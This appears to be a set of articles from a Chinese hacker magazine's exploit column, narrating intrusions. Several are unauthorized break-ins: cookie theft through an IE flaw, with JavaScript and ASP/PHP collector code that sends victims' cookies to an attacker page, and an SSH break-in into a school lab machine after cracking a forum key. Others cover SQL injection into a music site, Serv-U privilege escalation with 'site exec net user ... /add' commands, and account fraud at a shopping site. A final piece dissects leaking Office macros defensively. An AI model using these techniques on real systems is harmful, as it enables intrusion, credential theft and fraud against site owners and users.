<param name="movie" value="http://www.istacey.net/project/exorcist/icon/promo3.swf">
<param name="quality" value="High">
<embed src="http://www.istacey.net/project/exorcist/icon/promo3.swf" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" name="obj1" width="489" height="76" quality="High"></object>
</body>
</html>
```

其中的 `http://www.istacey.net/project/exorcist/icon/promo3.swf` 是朋友发给我的地址，把我给吓了一跳，不过没想到我却用它来骗稿费了，呵呵。

为了测试，赶快去黑防论坛发表一篇文章，要有吸引力才行，如图 3 所示。


图3

## EXPLOIT ATTACK

> 栏目编辑 / 脚本小子 / scriptboy@hacker.com.cn

够有吸引力了吧？我猜中招的一定不少！其实我们可以把以上的攻击文件改名叫成 `.swf`，为了在论坛上传方便（不允许 swf 格式），我改为 gif 格式了。

由于它是利用 IE 的漏洞，这个页面的地址可以在任意地方，不过注意：

```javascript
function shellscript()
{
window.name="poorchild";
open('http://www.hacker.com.cn/newbbs/announcements.asp?action=showone&boardid=0',"poorchild");
}
```

这个函数中定义了我们偷窃浏览器机器中站点的 Cookie 信息，我设置的是黑防论坛的，大家可以换成要攻击的论坛。同时这个页面也要选取内容少的页面，最好不要带图片，以加快载入时间。

好，我自己就先来看看效果吧，如图 4 所示。

看来是成功了，为了不让浏览者看到自己的 Cookie 信息，可以把它发送到自己定制的 ASP 页面，方法是在支持 ASP 和 FSO 组件的空间上建立以下页面：


```asp
<%
testfile=Server.MapPath("cookie.txt")
cookie=Request("cookie")
set fs=Server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&cookie&"")
thisfile.close
set fs = nothing
%>
```

将它命名为 `Cookie.asp`，注意将以下内容

```javascript
x.DOM.Script.execScript("window.open('http://www.njrb.com.cn/c/comment/comment.php?fidRealName=zhang&fidEmail=zhang@163.com&fidArticleid=&fidTitle=&fidLink=&func=add&sl=%B7%A2%B1%ED%C6%C0%C2%DB&fidComments='+document.cookie)");
```

改为

```javascript
x.DOM.Script.execScript("window.open('http://youwebsite.com/cookie.asp?cookie='+document.cookie)");
```

或在支持 PHP 的空间建立以下页面

```php
<?php
$info = $_GET["QUERY_STRING"];
if ($info) {
$fp = fopen("info.txt","a");
fwrite($fp,$info."\n");
fclose($fp);
}
header("Location: http://www.hacker.com.cn");
?>
```

这样通过这个漏洞，我们就可以“偷取”到任何论坛的 Cookie 信息了，不管论坛做了多么安全，只要浏览者 IE 存在此漏洞，就可成功获取别人的 Cookie，这可称得上是论坛杀手了！

适合读者：入侵爱好者、管理员、Linux 爱好者
前置知识：PHP 基本语法

### Linux下由论坛到SSH的入侵

文/图 ecawen

本来我不习惯开 QQ，可好友打来电话说有找事我，遂上线。因为我用的 QQ 是能显示 IP 地址的的版本，所以看到好友的 IP：xxx.xxx.19.24，发现好友是在学校的实验室上网。我突然奇想，想看看他们实验室的机器里都有些什么东西，因为我以前知道他们实验室的机器在一个 C 段里——什么？你让我直接给好友发木马？那小子比猴都精，况且那小子的技术也不是省油的灯，还是用迂回战略吧！

从百宝箱里随便祭出个扫描器，我用的是这个小东东 BluesPortScan，它的扫描速度超快，只可惜会漏报。先扫 30 台机器吧，端口 1~150。扫描完后，一台机器引起了我的注意，机器 IP 为 xxx.xxx.19.7，开了 22 和 80 端口。开了 22 端口，八成就是台 Linux 机器了。拿 SecureCRT 连一下 22 端口，出现图 1 所示的登录界面。


22 号端口对应 Linux 下的 SSH，这一服务有许多弱点。

79 端口的 Finger 没开，用户名目前只知道可能是 ROOT，密码先来个 123，返回错误，看来要从别处入手了。别处好像只开了 80，后来扩大了端口扫描范围又扫出个 Oracle 的 3306 端口，不过那个数据库用户 ROOT 的密

www.hacker.com.cn
2006 精华奉献本 下册

## EXPLOIT ATTACK

栏目编辑 | 脚本小子 | scriptboy@hacker.com.cn

码不是空，总不能让我挂本字典去跑吧？还是转到 80 端口吧。

Telnet 上它的 80 端口，然后 GET，返回服务器信息 Server: Apache/1.3.27 (Unix) PHP/4.2.3。用的阿帕奇服务器，不要考虑 Web 服务器本身的漏洞了，去网站转悠吧。地址栏里敲入它的地址 `xxx.xxx.19.7`，回车。网页出来了，看来没有用虚拟主机什么的，八成是学生自己做的东西，不过，虽然网页内容比较官方，但感觉网站好像千疮百孔。用 PHP 和 HTML 做的，有一个好像改得面目全非或自己做的新闻系统，在文章管理系统里找了几个点试了试 SQL 注入，没有成功，算了，到论坛里看看吧。

进了论坛里，先习惯性地用 admin 密码 admin 登录，竟然成功了，倒啊倒！找个上传点扔个 PHP 后门上去！接下来却让我大失所望，管理面板里转了半天也找不到个上传点，别说上传头像了，用户资料里就没头像这一项。哪个论坛这么气人？看看网页底部，本论坛代码来自 xxx.com，管理员还不错，没改版权信息。看到了这儿想到了什么？赶紧去你自己的网站改敏感字符？呵呵，地址栏中打入 xxx.com 回车，哦，原来是个不错的个人主页，看他的作品里有个微型 PHP 文本论坛，就是这个了，呵呵，幸亏刚才在论坛里没试 SQL 注入，不然就白费傻劲了。不管三七二十一，下载下来再说。

下载完成，解压，发现论坛根目录下有个 DB 文件夹，这就应该是所谓的论坛“数据库”了，打开此文件夹，发现里面都是些 .dat 文件，用记事本打开，居然是文本格式。警觉的双眼一下子就盯到了那个 User.dat 上。打开，内容如下：

```
admin<>p|cv<>3<>ecawen@21cn.com<>peking<>http://<><><><><>3<>
2004-01-01<>|
```

Admin 是默认用户，P|cv 应该就是加密后的密码了，紧接的“3”代表管理员，后面的就不用看了。迫不及待地在地址栏里输入：`xxx.xxx.19.7` /forums/db/user.dat，天，里面的内容全显示到 IE 里了，赶紧保存下来。

好了，找关键的地方，最早的用户一般就是第二个，找到了，是管理员权限，用户名为 aaa，密码为 4s@A%G，破解出了这个密码，按使用习惯，系统密码不是这个也不远了，至少会前进一步。重新分析论坛代码，发现用以下的方法做的加密：

```php
function t_encrypt($text, $key)
{
    $crypt = "";
    for($i=0;$i<strlen($text);$i++)
    {
        $i_key = ord(substr($key, $i, 1));
        $i_text = ord(substr($text, $i, 1));
        $n_key = ord(substr($key, $i+1, 1));
        $i_crypt = $i_text + $i_key;
        $i_crypt = $i_crypt - $n_key;
        $crypt .= chr($i_crypt);
    }
    return $crypt;
}
```

还有个 Key，Key 在哪呢？在 DB 下的一个 Mishi.php 里，打开内容如下：

```php
<? $key="jpjtvdomfmawwttsdhoxurmygjjtauetj uimueurisecggpymneslwowuqnzmngmyjvcmeye uselymzoinxvqonmhjjhlljywixrdxboqdmfidl hzrcoatnldmwiwnlayirwqcgazyyfirvwybgroqxfiqruu rtkpogbkgdibeqehjefhafmjlkasitbizcxasobkl"; ?>
```

分析加密函数的算法，从密码第一位开始，取密码的一个字符，取 Key 对应位的一个字符，转换成 ASCII 码相加，然后相加结果再减去 Key 中下一位的 ASCII，最后把最后结果再转换成字符即所谓密文存储。

Substr(string, i, j) 函数的作用是将字符串 String 的第 i 位起取出 j 个字符。Ord() 和 chr() 分别是字符到 Ascii 和 Ascii 到字符的转换函数。简化一下上面算法就是：`$i_crypt=$i_text+$i_key-$i+1_key`。先拿第一位算吧，假设原密码第一位 Ascii 码为 x，则

```
x+ascii(j)-ascii(p)=ascii(4)
```

用 Ascii 码算就是 x+106-112=52

x = 5 8 转换成字符就是“:”，好奇怪。把 6 位密码全部还原回来，再去论坛登录，糟了，希望破灭了，提示密码错误！管理员大概不会去改代码中加密部分的算法的，难道，管理员把 Key 改了？

重又回到论坛，注册一个新用户 Ecawen，密码 Mygod，然后打开它的 User.dat 观看，加密后的密文为 P|cv，按下载回来的论坛源代码中的密钥算了算，不对，果然 Key 被改了。但包含 Key 的文件是个 Mishi.php，Key 也在 PHP 语言里，远程根本无法得到，浏览器里打 `/forums/db/mishi.php` 返回的只是空白页面，因为传出时 PHP 语句早被服务器过滤了。怎么办，想了几秒几秒，还是有办法的，我们不一定要知道确切密钥，知道密文和算法了，这么简单的算法我们应该能把需要的搞出来。

假设未知密钥第一位是 Ascii 码 a，第二位是 b，依此类推……

我的用户 Ecawen 的密码（我注册的，当然知道，我输的是 mygod）加密后密文是 p|cv，所以我们可以这样算

（为了看着简洁 ascii(m) 我们直接用 ascii 码 109）

```
109+a-b=112
121+b-c=124
103+c-d=108
```

看晕了吧，其实，我们加个 () 就豁然开朗了。

```
109+(a-b)=112
121+(b-c)=124
103+(c-d)=108
```

好了，拿出他的管理员密文来算吧：

```
x+(a-b)=52
x+(b-c)=36
```


x+(c-d)=64

把x再还原成字符，好了，原密码出来了吧？有点复杂？越这样你会越激动的！不过，有一点要注意的是，你注册的用户密码位数要不小于管理员密码位数，此处管理员密码是6位，我一不小心注册了个5位的，到第6位不能算了，还得另注册个用户，走了弯路。

好了，拿解出的密码登录论坛，成功登录。打开SecureCRT通过SSH登录其系统，用户名ROOT，密码为刚解出的那个密码，怀着激动的心情默念到第N声芝麻开门的时候，门开了！进去转吧，因为是好友学校的机器，代理我都没用，有事CALL好友出来“垫背”！

后来还发现系统中存在与论坛管理员同名的那个aaa用户且密码也相同，就不再详述了。那些ida / idq、webdav什么的早已远去了。冲击波那个漏洞满城风雨后也早销声匿迹了，现在专门找系统漏洞的攻击及入侵已经快跟不上时代了，况且网上很多主机前面又是防火墙又是IDS的。而转而分析网站综合缺陷，从网站数据库入手，SQL注入等手段正是热潮，所以，管理员同志们，看好你们的每道关口、每个细节！

脚本小子：本文作者第一次渗透就遇到了很BT的主机 不能执行程序，不能浏览重要的目录和文件，只可以解析PHP。确实少见，他最后是怎样突破这样的安全防线的呢？还是Serv-U.php帮的忙！

适合读者：入侵爱好者、黑迷、网管

前置知识：黑帽操作，注入攻击，脚本应用

### Serv-U.php

#### 黑暗中的光芒

文/图 李麒(咖喱粉)

这几天挺无聊的，没什么事情做，恰巧朋友新做了个网站，让我去看看，顺便测试一下站点的安全性。

先看了看网站的结构和布局，感觉整体上用了整站程序，细细分析猜想可能是FreePower3.6，偶还是比较熟的，还有个论坛是LeadBBS的，“敌情”先检查到这，开工！

> 入侵前收集信息是非常重要的，它可以帮助你决定入侵的过程、思路。

通过Ping得到目标网站的IP，在IE中打开这个IP时，却是另外的页面，估计是虚拟主机。在http://whois.webhosting.info这个网站上查询该IP地址绑定了78个域名，好家伙，真多呀，到其他的站点转了转，大多数是ASP站点，有少量的PHP的。本来想通过别的网站进行跨站攻击的，可是小菜我水平不行，基础不牢，没办法，换换思路吧。

首先在网站上找到了这个连接http://www.xxxxx.com/Article_Show.asp?ArticleID=7
感觉有问题，随手加了个分号，显示出错页面：换成点号，页面正常显示了，说明很有可能存在SQL注入漏洞，用工具注入吧。打开NBSI2，填上注入页面地址，显示暂未检测到注入漏洞，然后在特征字符里写上1D，再次检测，显示发现漏洞，如图1所示。

依次破解出用户名和MD5加密密码，跑MD5得到密码是kignpl。

由于主页上有现成的后台管理地址，省掉寻找的麻烦了。直接进入后台后，开始上传我的ASP木马，仔细翻看每个功能，虽然上传文件管理不能使用，但是文章管理能用的。在本地先把海阳2005版的ASP木马改名成GIF文件，然后在文章管理中上传，提示我上传成功后文件的相对地址是“uploadfiles/2005-2/2005217193345303.gif”，可是我怎么把它变成ASP文件呢，小菜我又卡壳了，郁闷！突然记得羽艺在黑防介绍过使用备份恢复数据库的方法来对付DVBBS不能上传ASP文件的问题，正好适合我！马上找到数据库管理部分，把我上传的GIF文件恢复成ASP文件，如图2所示。

木马地址是http://www.xxxxx.com/database/8.asp，总算有点成就感了，呵呵。马上登录我可爱的ASP木马，得到WebShell，大致看了看主机的信息： IIS6.0，


图1


图2

## EXPLOIT ATTACK

栏目编辑 > 脚本小子 > scriptboy@hacker.com.cn

Windows Server 2003，还好支持FSO，高兴得我“乐开了花”——要知道，这可是我的第一次呢！


FSO(File System Object)是微软ASP的一个对文件操作的控件，该控件可以对服务器进行读取、新建、修改、删除目录以及文件的操作，是ASP编程中非常有用的一个控件。

本来想就此打住的，但是在杂志上看到别人都提升权限了，我也来凑凑热闹吧。在WebShell里浏览了一会，发现当我浏览这个站点的C盘时，居然做了权限限制，如图3所示。


图3

没想到主机上仅有3个盘，我都不能浏览其根目录，被限制在网站的主目录里，向上跳转也不可能，而且管理员还禁止了WSH，由于我是Internet来宾账户，只有user权限，所以抱着一线希望试了试CMD，结果不能执行，看来管理员又设置了不能访问Cmd.exe。没有了CMD，没有了WSH，目录没有执行程序的权限，我怎么混啊……

带着郁闷的心情，再来试试上传，心想，你不让我用CMD，我自己传个上去吧！依然失败！把本地的Cmd.exe换成名1.gif上传，还是不行；改成HTM文件，一样不行！纳了闷儿了。这样看来是什么程序都不能运行了！真有点想放弃，不能写文件，不能读网站目录外的文件，以前高手们的方法怎么都不行了，反向连接也没用了，更别说NC和木马了。

对了，还没检查端口呢！我赶紧拿出SuperScan扫描端口，结果让我这个小菜绝望了，只开放了21和3389端口，估计对方有防火墙或者做了TCP/IP筛选过滤，389端口又不熟悉，21是FTP服务的默认端口，连接上去看看Banner怎么样？兴许是Serv-U呢？如图4所示。


图4

从返回的信息来判断，虽然它修改了FTP Server的Banner，但是从“user name okay,need password”这句可以大胆的猜测它就是Serv-U！虽然它的版本我现在还不知道，但是这也许会多条通向成功的途径，试试！

经过仔细的思考，眼下有两个思路可以走：第一个是通过这个IP上的其他站点来渗透，我就不信，77个虚拟主机都是这么BT，应该有些用户权限能大点，可是说得容易做起难，都黑上一遍第二天我就是有两黑眼圈的国宝了；第二就是Serv-U，不是开了21吗？于是我拿起前辈们的远程溢出攻击武器，轮番轰炸，可是人家21阵地坚若磐石，绝望了……

回过头再想想，服务器不是支持PHP脚本吗(这个IP上有PHP网站的)？虽然我的权限很小，但也不是一无是处，EXE上传不了，来个PHP的，谁知还真的能正常解析！赶紧上传个PHP木马，可惜PHP木马的权限也是很低的，与ASP木马几乎没有任何有用的权限。不过这就给了我启发：要是有个PHP脚本能实现Serv-U的本地权限提升不就能成功了吗？说干就干，我可是不会PHP语言的，自己编是不行了，去网上找找，可惜没找到合适的。后来把这个想法跟羽艺说了说，他说他正好有个这样的脚本，我拿回一看说明，这不正是我想要的吗？哈哈，看来要柳暗花明了。

赶紧把它上传到Web目录里，地址是:http://www.xxxxxx.com/database/servu.php，这里我改成了Servu.php。IE中直接运行后如图5和图6所示。


图5


图6

www.hacker.com.cn 2008 精华奉献本 下册

脚本小子：黑防编辑部在工作的时候有很奇特的“音响”效果：有时传出来的是婉约的轻音乐，这肯定是蝴蝶MM的歌曲了；有时候传出来的是雄浑的黄河大合唱，这是刘大侠在闭着眼睛模拟指挥棒的挥舞；Icefire走的是流行路线，他放的音乐都是最新的大碟；Socket是听外文的，印度鸟语不知道为什么他喜欢得不得了，至于WTF则是R&B大家，不知道歌手是唱歌还是读课文，而脚本小子我就负责为各大编辑收集歌曲，命苦没办法。中国音乐网是我常去的一个下载Music的网站，没想到本期黑防竟然有关于它的投稿文章……

适合读者：入侵爱好者、网络管理员

前置知识：ASP注入基本方法


### 入侵中国音乐网

文/图 陶洋

今天没事做，想听听古典音乐，朋友说中国音乐网上面有好多好听的古典音乐，于是就去看看，去了之后还真找到了好多古典音乐，可是下载的时候却发生了意外，如图1所示。

音乐竟然还是“会员软件”，后面说免费注册就可以了，但注册后却说要发一定的帖子才可以下载，真是麻烦。于是，开始动“歪”脑筋。

地址栏里的地址是http://musicdown.xxxx.com/

我们只要图5的功能在Serv-U里加个超级用户！说说它的使用方法吧：主机IP中填上提供虚拟主机的服务器地址 主机FTP管理端口要根据情况来修改 添加用户名和密码这个根据自己的喜好来修改，这里默认是wofeiwo，密码是wrsky；用户主目录一般是C:\。其他的一般不需要进行修改。

细想了一下，既然net.exe存在说明可能管理员对net文件做了访问限制，测试CMD也是一样。这样我来上传net.exe，改名为200.exe，然后执行添加管理员用户命令如图7所示。

好了，我根据我的情况修改了IP、添加的用户名与密码后，点击添加按钮，Serv-U本地提升权限脚本将在服务器端被解析执行，需要一些时间，有点慢，等滚动条走完后即执行成功，将添加一个Serv-U用户admin，密码是admin，并且它的权限是system，方框里有命令执行的回显，我的回显是（看到以下的信息基本上执行成功）：

```
220 Serv-U FTP Server v5.2 for WinSock ready...
331 User name okay, need password.
230 User logged in, proceed.
230-Switching to SYSTEM MAINTENANCE mode.
230 Version=1
900-Type=Status
900 Server=Online
900-Type=License
900-DaysLeft=0
......
900 MinorVersion=0
200-User=admin
200 User settings saved.
```

```
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\>ftp
Connected to xxxx.com.
220 Serv-U FTP Server v5.2 for WinSock ready...
User (xxxx.com:(none)): admin
331 User name okay, need password.
Password:
230 User logged in, proceed.
ftp> cd c:\winnt\system32
250 Directory changed to /c:/winnt/system32
ftp> dir net.exe
200 PORT Command successful.
150 Opening ASCII mode data connection for /bin/ls.
-rw-rw-rw- 1 user group 40960 Mar 27 2003 net.exe
226 Transfer complete.
ftp: 64 bytes received in 0.00Seconds 64000.00Kbytes/sec.
ftp> quote site exec net.exe user ndj 123456 /add
501 Cannot EXEC command line (error=0).
ftp> ed c:\winnt\system32
250 Directory changed to /c:/winnt/system32
ftp> put c:\net.exe c:\winnt\system32\200.exe
200 PORT Command successful.
150 Opening BINARY mode data connection for 200.exe.
226 Transfer complete.
ftp: 40960 bytes sent in 0.00Seconds 40960000.00Kbytes/sec.
ftp> quote site exec 200.exe user ndj 123456 /add
200 EXEC command successful (TID=33).
ftp> quote site exec 200.exe user localgroup administrators ndj /add
200 EXEC command successful (TID=33).
ftp>
```

图7

注意在这里由于我没有办法查看处于防火墙之后（假如有）的主机开放的真实端口（技术太差了，呵呵），所以我假设它的本地Serv-U管理端口没有被修改，有点蒙的味道了。哈哈！成功了！是Serv-U 5.2，连版本都显示出来了！结果是歪打正着了！

现在局势已经明朗了：直接FTP过去登录，切换目录到System32下，然后执行以下命令添加用户"mdj"：
Quote site exec net.exe user mdj 123456 /add
怎么回事？提示我执行失败
```
ftp> quote site exec net.exe user mdj 123456 /add
501 Cannot EXEC command line (error=0)
```

命令执行成功！说明具有系统管理员的权限！可以利用Serv-U进行远程管理、上传免杀木马等。大家都是行家，小菜我这里就不废话了，入侵到这里也就结束了。

Serv-U.php对所有Serv-U版本均通用的，本地权限提升工具的话，我还是个小小的user权限，可见它在这次渗透过程中起到了至关重要的作用。现在有的服务器还是允许执行程序的，这样一开上传一个提升Serv-U权限的exe就一切搞定！但如果你在Web测试中遇到了和我一样或者类似的情况，不妨试试这个脚本，会有惊喜的哦！最后感谢羽艺哥的大力支持！


## EXPLOIT ATTACK

》栏目编辑）脚本小子》scriptboy@hacker.com.cn


software.asp?id=224 当然想到注入了。在后面添加“and 1=1”和“and 1=2”，可惜是白高兴，好像不存在注入。

回到主页上看了一下，发现地址还是很诱人：http://www.xxxx.com/Article_Class.ASP?ClassID=5，既然分页面都做得那么安全，主页就不会有什么问题了吧？无意中尝试了一下，没想到奇迹发生了：提交“and 1=1”后页面恢复正常，如图2所示，提交“and 1=2”出现错误，如图3所示。


看来是有问题了，赶快手动提交一下：http://www.xxxx.com/Article_Class.ASP?ClassID=5 and 0<>(select count(*) from admin)，又恢复正常了，

证明真的有注入漏洞，而且表名还很好猜。拿出冰舞（冰舞由20nt的浪心开发，现在可以下载的版本是2.5，可以到www.20nt.net下载），很快就出来了用户名和密码，可惜是16位MD5加密的，放在一边，手动尝试，没想到奇迹发生了（今天是不是上帝与我同在？），这么大的网站管理员密码竟然和自己的用户名是一样的！

找到后台地址，登录上去，如图4所示。


找了半天都没有发现可利用的地方，放弃了。再逛逛，又发现一处注入的地方：http://shop.xxxx.com/class.asp?aid=54&nid=469

使用同样的方法，请出冰舞，找到一个管理员账户和密码，登录后台发现后台的管理功能好全，连上传都为我们想到了！如图5所示。


大家有什么想法没有？我反正是直接上传WebShell了。然后下载数据库，找到可用的账户和密码，下载音乐！联系管理员，Over！图6

> 脚本小子：网站除了在技术上要过关，还应该做好管理工作，不要在管理工作中出现漏洞，否则就像本文所说的那样，后果不堪设想……

适合读者：入侵爱好者、网管 前置知识 无

### 在中国最大的图书音像商城

#### (Joy*.com)

文/图 光芒果

Joy*.com是国内知名的电子商务门户站点，本人也经常到该站购物。近日，本人对该站进行了一次安全检测，发现了一些问题，而这些问题又和最近非常火爆的钓鱼式攻击息息相关：虽然不能控制站点，但可获取站点用户的使用权限。特作此文以提醒该站点注意。

一般而言，像这样大型的门户网站，系统方面肯定做得很牢固，所以我就直接从脚本入手了。随便检查了几个URL，并没有发现注入点，于是我把目标锁定在一些容易被忽视的环节上。翻了一下各个链接，突然发现“找回密码”功能。点击进入，居然只要求输入用户名，如图1所示。

莫非是要一步步输入信息？不管它，先输入自己的用户名试试。输入用户名确定后，不可思议的事发生了：系统居然提示“密码已发到您的注册信箱中”，并


www.hacker.com.cn
2006 精华奉献本 下册


#### 且把邮箱地址都列了出来，如图2所示。


这下好了，只须破解邮箱就可以拿到任意用户的密码了。后来我到自己的邮箱中收取了这封邮件，发现密码被原封不动地发了过来，看来并没有进行加密，如果有其他漏洞被盗窃了数据库，那岂不就……我不敢往下想了，汗！

毕竟这个漏洞是需要破解邮箱的，如果邮箱密码足够强壮我们也无可奈何，那还有没有其他漏洞呢？忽然想起当初我是从网下书友会形式加入Joy*的，现在Joy*正在鼓励我们由网下向网上发展，还专门做了一个网下会员转网上会员的页面。于是我点击了这个页面，发现“密码”那有这么一句话：默认密码为你入会时的邮政编号，如图3所示。


邮政编码？邮政编码才几位数字啊！如果网下用户并未转到网上（其实很多都是没转的），那就不……不过如果有登录次数限制的话，这操作起来也是十分麻烦的，于是我拿我自己的账号进行实验，发现故意错了十次密码都可以继续尝试。这下好了，只要随便拿个网下用户的账号用工具爆破就搞定了，而网下账号一般是数字形式的，如XXXX00111111。

到这里，站点本身的漏洞我找得差不多了，忽然想起，其实不用密码也是可以使用任意网下用户的权限，我怎么这么笨啊！呵呵。

其实这个方法利用的并不是网站本身的漏洞，而是管理方式的漏洞。我们拿站点用户的权限，无非是想要使用VIP用户权限以求获得更优惠的价格或是使用他人在站点账号的余额“免费”购物。其实，要使用网下VIP用户权限购物我们完全可以，直接选好喜欢的商品，然后按网下VIP价格汇款过去，在汇款人注明一个VIP用户的用户名，地址那写自己的地址，附言那除写清商品代码还注明“暂用此地址”，商品就会按你的汇款地址发过去了。但要注意你必须确认该贴拥有VIP权限，否则货款不够你的钱可要落入别人的账号了。如果要“免费”购物，我们可以先发一封邮件给网下的客服信箱，说把地址改为你现在的地址。不久，你就会收到邮件说地址已更改。呵呵，下面就要看你的运气了，你再发邮件去说用户订购XX商品，注明账户有余额，如果账号有足够余额，那你就可以“免费”购物了，如果账户没有余额或余额不足，又会回复邮件说明，这时你可以换个用户试试，也可以直接扣除账户中剩下的余额汇款购物，方法同冒充VIP用户一样，只不过邮件中加多一句“账户有余额”，另外，为了不引起工作人员的怀疑，最好不要直接回复邮件，而是每次都写一封发过去：
后果，不堪想象。望管理员及时修补这些漏洞！

适合读者：手机用户
前置知识：无


文/宇飞

在现在这个信息技术高速发展的社会里，一些个人信息有时候应该盖上“绝密”之印，不能被公开或者恶意传播。那么，手机话费详单和余额被人知道算不算泄密呢？

●寻找“弱口令”

现在我们用的手机有两大运营商：中国移动和中国联通（地球人都知道！），存在此设计缺陷的公司为中国联通。

不知道联通用户有没有注意到：我们用手机拨打10011查询话费的时候，不用输入手机密码就可以直接查到我们本机的话费情况，这看起来是联通公司给我们提供了很大的方便！实际上呢？

中国联通给客户设置的默认密码为“123456”，其实我们从一开始就不用关心这个密码到底是什么，反正平时也不会用到，想查询话费了直接从本机查询就可以，所以就造成了“弱口令”一直存在。这也就意味着别人可以拨打10011 -> 按“2”键（非本机查询话费），然后可以按照语音提示输入你的手机号，需要输入密码的时候，只需输入默认密码就可以查询你的话费情况了！好恐怖呀！这下你给谁谁打过电话我都知道了！

但上面的方法也不一定是万能的，毕竟安全意识高的人很多，这个和入侵有点相似吧？但条条大路通罗马，如果他密码更改了，我们还可以利用社会工程学拿回来！

脚本小子：2005年第3期我们刊登了《防泄密，从Word开始》一文，在广大的读者群中引起很大的反响，本文作者就是看了上篇文章后才想起自己遭遇的一次Office文档泄密事件的，然后深入剖析了Office泄密的原因和实现手段，非常有说服力，简直是对我们的当头棒喝！说不定你现在就正在遭受这样的"偷窥"，希望引起大家的警惕。
适合读者：Office软件使用者，入侵爱好者，网管
前置知识：无

### Word、Excel：防泄密防泄露

文/刘黎

朋友的公司正处于创业阶段，其主要业务是承接一些单位局域网的搭建工程，最主要的客户是本地一些中、小学校。由于最近连续几次竞标失败（其中还有我为他牵过线的两个单位，底细我已经帮他摸得比较清楚了），朋友很郁闷，打电话请我出去吃饭。"不要空着手来呀！"朋友强调了一句，我当然明白他说这话的意思，既然投标已经结束，我也就很容易拿到了中标公司的两份标书（就是跟我熟识的那两个单位的）。实际上所有标书的内容都大同小异，真正关键的差别在各类配件的价格上。朋友看完标书，脸已胀得通红——对方知道朋友的底价！

公司有内鬼是肯定的，但这内鬼是怎样得到文件的呢？先看朋友的办公条件——办公室有一台台式机，但用的时候很少，平时主要用的是一台笔记本，所有的重要资料都在一个20GB的移动硬盘里，这硬盘朋友是从不离身的。本来怀疑朋友不小心把文件保存在了台式机上，因为台式机其他人是可以接触的。但在机器上用关键字仔细搜索了一遍，没有！无论是用台式机还是用笔记本，朋友都注意了不直接把文件存放在机器上，而是只在移动硬盘里编辑或保存。那么究竟文件是怎么泄漏的呢？由于不知道从何查起，我一边与朋友分析情况，一边漫无目标地在台式机上翻来翻去，就在这个时候，我注意到一个现象——在我随手关闭Word时，鼠标变成漏斗，并持续了十多秒才真正关闭！不应该关闭这么慢呀？随即，其中奥秘被我发现了——在Word的宏编辑器中，有这样一段代码（注释是我加的）：

```
Sub AutoClose()
    On Error Resume Next
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set fdr = fso.GetFolder("\\192.168.0.2\共享文件夹\……\XX\") '准备将文档存在某个文件夹
    Set f = fdr.Files
    x:= f.Count '获得文件夹中文件的个数
    filename = CStr(x + 1)" '将个数加1,用来作为新文件的名称
    stra = " \\192.168.0.2\共享文件夹\……\XX\" & filename & "(.txt)" '生成文件保存的字符串
    ActiveDocument.SaveAs FileName:= stra, FileFormat:=wdFormatText '保存文件
End Sub
```

可恶啊！我知道"192.168.0.2"这台机子连有激光打印机，是打印服务器，上面的共享文件夹本来就很多。我立即进入网上邻居"\\192.168.0.2\……\XX\"这个文件夹，该文件夹是一个隐藏文件夹，藏得非常深（所以我在路径中使用了省略号），文件夹中只有10多个文本文件。看来这个内鬼还是挺勤快的，注意了随时"打扫"这里。根据文件保存的时间，随手打开一两个文件，朋友的标书出现在眼前！

现在我们再来再现文件失密的过程——朋友认为，只要文件没有存放在台式机的硬盘上，就不会失密，所以他放心大胆地将移动硬盘挂在台式机上，编辑其中的文件。而内鬼利用了Word文档关闭时的自动宏AutoClose，在文档关闭时，会自动搜索"\\192.168.0.2\共享文件夹\……\XX\"文件夹，并列举其中文件的个数，将文件个数加一，用以形成新文件的名称（这样做是为了防止出现同名文件，同时也方便内鬼查看"最新"的文件），然后用新的文件名将文件存为文本文档。就这样，神不知鬼不觉，位于移动硬盘中的文档就被转移了地方。

这里还要谈谈Word程序本身的问题——无论你在什么情况下启动Word，Word都会首先加载全局模版Normal.dot。由于Normal.dot是本地模版，不论“宏安全”的级别设为多高，只要是Normal.dot中的代码，Word都会无条件执行！正因为如此，这个Normal.dot模版也是各种宏病毒首先要感染的对象。而朋友公司中的内鬼也正是利用了这点，将代码写在Normal.dot中，这样无论什么时候打开Word进行编辑，那段代码都会将文档“备份”到打印服务器上去。

更令人吃惊的是，在被“备份”的这些文档中，居然还有被存为TXT格式的财务文件！看来阴招还不仅仅只存在于Word中啊！启动Excel，在VBA宏编辑器中果然发现了一个后缀为“xlb”的加载宏，该宏与上面Word中的宏大同小异，也是利用工作簿关闭的事件，将文档另存为文本文件，代码如下：

```vba
Private Sub Workbook_BeforeClose(Cancel As Boolean)
    On Error Resume Next
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set fdr = fso.GetFolder("\\192.168.0.2\共享文件夹\……\XX\")
    Set f = fdr.Files
    x = f.Count
    y = CStr(x + 1)
    a = "\\192.168.0.2\共享文件夹\……\XX\" & y & "(" & x & ").txt"
    ActiveWorkbook.SaveAs Filename:=a, FileFormat:=xlText
End Sub
```

由于启动Excel程序时，Excel没有像Word那样必须要加载一个全局模版“Normal.dot”，但Excel提供了另一种方法：加载宏。这“加载宏”其实就是一个普通的有代码的Excel文档。Windows 98下，加载宏被保存在“c:\windows\application data\Microsoft\Excel”中，Windows2000/XP/2003则保存在“C:\Documents and Settings\你的用户名\Application Data\Microsoft\Excel”下，并且后缀名为“xlb”。只要在Excel中曾经加载过某个加载宏，那么以后使用Excel时，这个加载宏都会在后台运行。并且，加载宏与Word中的Normal.dot模版一样，不受宏安全等级的限制！

到这里，已找到标书泄密的途径，附带还发现了财务文件也惨遭“泄密”，剩下的就看朋友如何揪出这个内鬼了。

其实仔细琢磨一下这两段代码，你不难想见——Office程序中的其他套件恐怕也是可以用类似办法进行“偷窥”的！代码本身并没有什么特别之处，但这种偷存文档的代码，一般的办公用户是很难注意到的！因为这段代码毕竟不是病毒，它既不“传染”，又不“读写注册表”，杀毒软件是肯定不会“管”它的，但它绝对是恶意代码，这种恶意代码，要躲过它，我想除了不断加强我们的安全意识外，也就别无它法了。

适合读者：入侵爱好者、网管
前置知识：无

### 轻取漳州学生网

文/图 llikez

